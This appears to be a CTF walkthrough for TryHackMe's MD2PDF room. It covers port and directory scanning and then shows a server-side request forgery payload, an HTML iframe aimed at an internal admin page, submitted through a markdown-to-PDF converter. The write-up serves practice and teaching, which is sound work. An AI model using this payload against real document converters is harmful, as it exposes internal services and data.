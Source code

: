 #  MD2PDF Walkthrough
<br/>

## Intro
Welcome into the surfer room, here is the link of the [challenge](https://tryhackme.com/r/room/md2pdf) on TryHackMe.
In this CTF we are gonna explore one of the many possible roads to exploit a vulnerable web-application.

*"Hello Hacker!*
*TopTierConversions LTD is proud to announce its latest and greatest product launch: MD2PDF.*
*This easy-to-use utility converts markdown files to PDF and is totally secure! Right...?"*

Whenever you feel ready press "start machine" and connect via OpenVPN or use the AttackBox.

<br/>
<br/>

## The Challenge
Let's add the IP to the hosts file for commodity:
```bash
echo "MACHINE-IP md2pdf.thm" | sudo tee -a /etc/hosts
```
(sobsitute with the actual machine IP address)

Let's do now a port scan of the target ti have more information:
```bash
nmap -sV md2pdf.thm
```

We can find 3 open ports: 
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  rtsp
5000/tcp open  rtsp
```

Still enumerating we can do a directory scan of the website to see if there are any hidden pages:
```
dirsearch -u http://md2pdf.thm
```

Directory scan found /admin, let's visit it, we get this:
```
# Forbidden
This page can only be seen internally (localhost:5000)
```

So now we can go on the main webpage where the app is hosted:
```
http://md2pdf.thm
```

we can guess that the flag is in the page that is forbidden for us, and since it can only be accessed by an insternal server we can try to exploit the app that convert Markdown syntax to PDF.

One thing to know about MD is that it also supports some of HTML and CSS tags, since our goal is to do an SSRF (Server Side Request Forgery)
, where we appear to be the internal machine contacting another internal resource to bypass he filter we found previously.

We can achieve it with an iframe which will show the content of another web page in a "window-box", and since this request will be elaborated by the app it will result in an SSRF.

So we can insert this snippet and press the button:
```html
<iframe src=http://localhost:5000/admin height=900px width=450px>lol</iframe>
```

The generate PDF file will contain the flag.

<br/>
<br/>

Congratulations you have succesfully exploited the SSRF vulnerability in this web-app to find the flag! Hope you had fun doing it and following along.

Catch you in the next CTF 😃 
